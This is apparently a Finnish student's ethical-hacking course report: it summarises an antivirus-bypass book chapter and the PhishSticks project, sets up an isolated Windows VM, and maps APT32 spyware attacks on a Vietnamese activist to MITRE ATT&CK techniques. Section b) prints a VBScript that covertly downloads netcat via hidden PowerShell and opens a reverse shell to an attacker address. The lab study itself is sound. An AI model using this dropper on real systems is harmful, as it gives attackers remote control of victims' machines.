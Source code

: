 # h6 Attaaack
## x) Lue/katso/kuuntele ja tiivistä
 Yehoshua and Kosayev 2021: Antivirus Bypass Techniques, luku: Chapter 1: Introduction to the Security Landscape:

Erilaiset haittaohjelmat, niiden luokkittelu päätarkoituksien mukaan.

Suojautuminen: Virustorjuntaohjelmat. Päätelaitteen havaitseminen ja toiminta (EDR = endpoint detection and response). Palomuuri. Tunkeutumisen havaitsemis ja esto ohjelmat (IDS/IPS = Intrusion detection/prevention system). Tietovuodonestojärjestelmä (DLP = Data Leak Prevention)

Kommunikaatio kohteen ja komento&hallintapalvelimen välillä reverse tai bind shellillä.

PhishSticks youtube: Flipper zeron badusb payloadin avulla reverse shell kohde koneeseen. Muut demo videot kiristysohjelmasta ja digisparkista.

PhishSticks:

- Viikko 39. Erilähteiden avulla aluksi testi skiptien löytäminen ja tekeminen sekä python kiristysohjelman teko.
- Viikko 40. Suomalainen näppämistöasetus digisparkin keyloggeriin. Python-kiritysohjelman muuntaminen suoritettavaksi tiedostoksi. 
- Viikko 41. Yhden rivin payload -> digisparkin nopeampi suoritus. Reverse shelli ja kiristysohjelma melkein valmiina.
- Viikko 43. Keyloggerin ja kiritytohjelman kehittäminen. Alustan vaihto windows -> linux ongelmien ratkaisuna. Kirjatut tiedot spostin kautta hyökkääjälle vai HTTP POST kautta?
- Viikko 44. Demoja
- Viikko 47. Suojaustoimenpiteet: Poista PowerShell käytöstä käyttäjältä. Estä PowerShell windowsin palomuurilla. Poista windows Run käytöstä käyttäjältä. Lunnasohjelmasuojaus windows defenferistä. Irrotettavien laitteiden poistaminen käytöstä. 
- Viikko 48. Hyvä esitys oli.

MITRE ATT&CK

- Taktiikat: Hyökkääjän tavoite.
- Tekniikat: Miten hyökkääjä saavuttaa tavoitteen. 
- Alitekniikat: Yksityiskohtaisemmat kuvaukset, miten tekniikoita voidaan käyttää.

MITRE Att&ck Enterprise Matrix

- Execution: Serverless Execution(palvelimeton suorittaminen): Hyökkääjät voivat väärinkäyttää palveluntarjoajien tarjoamia palvelimettomia palveluita suorittaakseen haitallista koodia pilviympäristöissä. 
- Persistence: Modify Authentication Process(tunnistautumisprosessin muuttaminen): Hyökkääjät voivat muokata tunnistautumismekanismeja ja -prosesseja päästäkseen käsiksi käyttäjätunnuksiin tai mahdollistaakseen muutoin perustelemattoman pääsyn tileihin. Tähän kohtaan on listattu monia alitekniikoita, kuten password filter DLL, Multi-factor authentication jne.

## a) The OS pwns you. Asenna Windows virtuaalikoneeseen samaan verkkoon hyökkäyskoneen kanssa. Kokeile, että saat koneen irrotettua Internetistä.
Ensiksi windows 10 asennustiedoston lataaminen https://www.microsoft.com/en-us/evalcenter/download-windows-10-enterprise. Sen jälkeen lisäsin sen virtual box alustalle.

Lisäsin uuden virtuaalikoneen virtual boxiin paimalla 'New'. Annoin sille haluamani nimen. Valitsin oikean tyypin ja version eli windows 10 ja 'Next'.
![Alt text](/H6Attaaack/kuvat/h6.a1.png)

Muistin ja prosessorien asettaminen

![Alt text](/H6Attaaack/kuvat/h6.a2.png)

Tallennustilan asettaminen ja 'finish'

![Alt text](/H6Attaaack/kuvat/h6.a3.png)

Sen jälkeen avasin virtuaalikoneen ja lisäsin siihen ladatun asennustiedoston. Windows setup aukesi ja perus setuppaaminen omien tarpeiden mukaan kieli, näppäimistö jne. 

![Alt text](/H6Attaaack/kuvat/h6.a4.png)

Kun aukeaa windowsin setup 'Which type of installation do you want?' valitsin 'Custom...'. Sen jälkeen lisää alkuasetuksia ja windows saadaan käyttöön.

![Alt text](/H6Attaaack/kuvat/h6.a6.png)

Muutamalla luodun windows virtuaalikoneen virtual boxin 'network' asetuksia seuraavasti saadaan hyökkääjän ja kohteen välille omaverkko. Pitää valita se niminen 'Host-only adapter', jossa hyökkäävä kone on kiinni.

![Alt text](/H6Attaaack/kuvat/h6.a7.png)

Nyt windows kone on irroitettu internetistä, koska sillä on vain 'Host-only adapter' käytössä.

![Alt text](/H6Attaaack/kuvat/h6.a8.png)

## b) Trustme.lnk. Kokeile PhishSticksin revshell vihamielistä tiedostoa, joka avaa käänteisen shellin hyökkääjän koneelle. Selitä, mitä tapahtuu ja miksi. Testaa, että pysyt antamaan kohdekoneelle komentoja reverse shellin kautta.
En saa toimimaan. Revsh.vsb sisältö:

    Set objShell = CreateObject("Wscript.Shell")
    ' Download netcat from attacker IP
    downloadCmd = "powershell -WindowStyle Hidden -Command ""(New-Object System.Net.WebClient).DownloadFile('http://192.168.56.101/nc64.exe', '%TEMP%\nc64.exe')"""
    objShell.Run downloadCmd, 0, True
    
    ' Start reverse shell
    execCmd = "cmd /c powershell -Command ""Start-Process \""%TEMP%\nc64.exe\"" -ArgumentList '192.168.56.101', '9001', '-e', 'powershell' -WindowStyle Hidden"""
    objShell.Run execCmd, 0, True

    Set objShell = Nothing

![Alt text](/H6Attaaack/kuvat/h6.b1.png)

![Alt text](/H6Attaaack/kuvat/h6.b2.png)

## d) PageRank. Laita linkki raporttiisi [kurssisivun](https://terokarvinen.com/2023/eettinen-hakkerointi-2023/) kommentiksi.

## c) Attaaack! MITRE Attack Enterprise Matrix: Demonstroi viisi tekniikkaa viidestä eri taktiikasta.
Tarkkailen lähemmin APT32 (AKA Ocean Lotus, APT-C-00, SeaLotus, and Cobalt Kitty) käyttämiä taktiikoita. Apt32:lla on enemmän tai vähemmän yhteyksiä Vietnamin valtioon ("APT32 is a cyber espionage group aligned with Vietnamese government interests.").  Yleisesti heidän taktiikoiden käyttö ja niissä edistyminen noudattelee 'cyber kill-chain' mallia. 

APT32 on kohdentanut vakoiluohjelmia erimerkiksi aktivisteja ja muita vaikuttajia vastaan. Löysin [amnsetyn raportin](https://www.amnestyusa.org/wp-content/uploads/2021/02/Click-and-Bait_Vietnamese-Human-Rights-Defenders-Targeted-with-Spyware-Attacks.pdf), joka suhteellisen hyvin avaa hyökkäykset Bui Thanh Hieu (jatkossa henkilö) kohtaan. Yritän löytää näissä hyökkäyksissä käytettyjä tekniikoita ja alitekniikoita sekä avata miten niitä käytettiin. Hyökkäysten aikaan henkilö asui Saksassa.

Taktiikka - Tiedustelu(reconnaissance). Tekniikka - Uhrien tietojen kerääminen [T1589](https://attack.mitre.org/techniques/T1589/). 
Alitekniikka - sähköpostiosoitteet [T1589.002](https://attack.mitre.org/techniques/T1589/002/). 

Tämä on varmaan suhteellisen helppoa, koska kyseessä on vaikuttaja. Yleisesti heidän yhteystiedot löytyvät internetistä.

Taktiikka - Alustava pääsy(initial access) + Suorittaminen(execution)

Tekniikka - Kalastelu(phishing) [T1566](https://attack.mitre.org/techniques/T1566/) + Komento ja skriptitulkki(command and scripting interpreter) [T1059](https://attack.mitre.org/techniques/T1059/). Alitekniikka: Kohdennettu kalastelu liitetiedostolla(spearphishing attachment)[T1556.001](https://attack.mitre.org/techniques/T1566/001/) 

Apt32 on lähetti spostia henkilölle todennäköisesti jonkun gollegan nimellä. Spostin sisälsi latauslinkin joka näytti liitetyltä tiedostolta, mutte se johti Ocean Lotus domainiin, joka latasi haitallisen tiedoston([latauksen eri vaiheet](https://unit42.paloaltonetworks.com/tracking-oceanlotus-new-downloader-kerrdown/)). Kyseessä oli vaikoiluohjelma. Vakoiluohjelma oli Cobalt Strike Beacon, jota apt32 on muokkannut omiin käyttötarkoituksiinsa. 

Metasploitissa löytyy ominaisuuksia miten vakoilua voisi myös toteuttaa. [Keylogger](https://www.offsec.com/metasploit-unleashed/keylogging/) ja muita kuten ([android](https://www.hackers-arise.com/post/2018/07/06/metasploit-basics-part-13-exploiting-android-mobile-devices)) viestien lukeminen, mikrofonin kuuntelu ja kameran kuvaaminen. (Olisin näyttänyt keyloggerin toimintaa, mutta olen sählynnyt jotain aiemmin kurssilla laitetun metasploitable 2 kanssa. Se ei enää toiminut eikä ole aikaa laittaa sitä uudelleen.)








Tekniikkaa tulee kokeilla käytännössä, kuvailu ei riitä.
Asenna tarvittaessa omat harjoitusmaalit. Eristä tarvittaessa koneet Internetistä harjoittelun ajaksi.
Voit käyttää kurssilla jo opeteltuja työkaluja (helpompaa) tai kokeilla uusia. Aiemminkin käytetyistä tekniikoista pitää tehdä uusi demonstraatio tässä tehtävässä.
Mikäli haluat tehtävästä helpon version, tekniikoiden valinta auttaa. Tuolta löytyy myös tuttuja ja helppoja tekniikoita.
Selitä, mitä esimerkissä tapahtuu.
Nimeä käytetyt taktiikat, tekniikat ja alitekniikat. Merkitse myös numerot T0123.456.










## lähteet
https://terokarvinen.com/2023/eettinen-hakkerointi-2023/

https://www.youtube.com/@phishsticks_pentest/videos

https://github.com/therealhalonen/PhishSticks/tree/master

https://attack.mitre.org/

https://www.mandiant.com/resources/blog/cyber-espionage-apt32

https://www.amnestyusa.org/wp-content/uploads/2021/02/Click-and-Bait_Vietnamese-Human-Rights-Defenders-Targeted-with-Spyware-Attacks.pdf

https://www.welivesecurity.com/2018/03/13/oceanlotus-ships-new-backdoor/
